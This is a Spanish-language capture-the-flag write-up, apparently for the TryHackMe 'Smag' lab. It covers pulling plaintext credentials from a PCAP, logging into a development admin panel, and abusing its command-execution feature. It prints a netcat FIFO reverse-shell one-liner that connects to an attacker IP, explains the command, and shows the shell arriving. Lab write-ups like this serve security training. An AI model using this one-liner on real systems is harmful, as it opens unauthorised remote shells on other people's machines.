 <img width="1912" height="838" alt="Image" src="https://github.com/user-attachments/assets/fe1fae5b-a388-4251-b45e-ebfe277b042c" />

Al revisar la captura **PCAP** (posible intercepción de tráfico HTTP sin cifrar), aparecieron credenciales en **texto plano**:

<img width="1918" height="776" alt="Image" src="https://github.com/user-attachments/assets/2d344330-d3c4-4bfa-93b4-964f7f3aef00" />


	username: helpdesk
	password: cH4nG3M3_n0w

Además, en los encabezados/flujo HTTP se observó un **dominio interno**: `development.smag.thm`. Para poder resolverlo desde mi equipo, añadí la entrada en `/etc/hosts`:

<img width="1918" height="808" alt="Image" src="https://github.com/user-attachments/assets/e3105ab3-f3ca-4f6a-ab7f-6a803cb7dc39" />

Con eso, pude acceder a `http://development.smag.thm/` y llegar a un **panel de login** (`login.php` / `admin.php`), donde funcionaron correctamente las credenciales extraídas del PCAP. **Conclusión**: el equipo filtró credenciales a través de tráfico HTTP sin TLS, y el dominio de desarrollo estaba expuesto y resolvible localmente.


<img width="736" height="367" alt="Image" src="https://github.com/user-attachments/assets/872d2efd-5d49-4a1c-aa2f-87e6e87dca3f" />

## Ejecución remota de comandos (RCE) y shell inversa

Tras iniciar sesión como **helpdesk**, la aplicación ofrecía una funcionalidad para **ejecutar comandos en el servidor** (un caso clásico de RCE). Para obtener una shell interactiva en mi máquina, utilicé un **one-liner** de **reverse shell** que invoca `/bin/sh` y redirige E/S a través de **netcat**:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.23.120.245 4444 >/tmp/f
```

**Qué hace este one-liner**

- Crea un FIFO (`/tmp/f`) para encadenar entrada/salida.
- Ejecuta `sh -i` (shell interactiva) y canaliza su E/S hacia `nc`.
- `nc` se conecta a tu **listener** (`10.23.120.245:4444`) y te entrega una shell como el usuario del proceso web (típicamente `www-data`).

y lo ejecutamos.

<img width="1918" height="554" alt="Image" src="https://github.com/user-attachments/assets/1d62f819-9182-409d-b16a-c29bc6de13bc" />

y listo!!! en nuestra maquina recibiremos una shell

```bash
┌──(zikuta㉿zikuta)-[~/Desktop/smag]
└─$ nc -lvnp 4444 
listening on [any] 4444 ...
^[connect to [10.23.120.245] from (UNKNOWN) [10.201.98.211] 44892
sh: 0: can't access tty; job control turned off
$ 
```
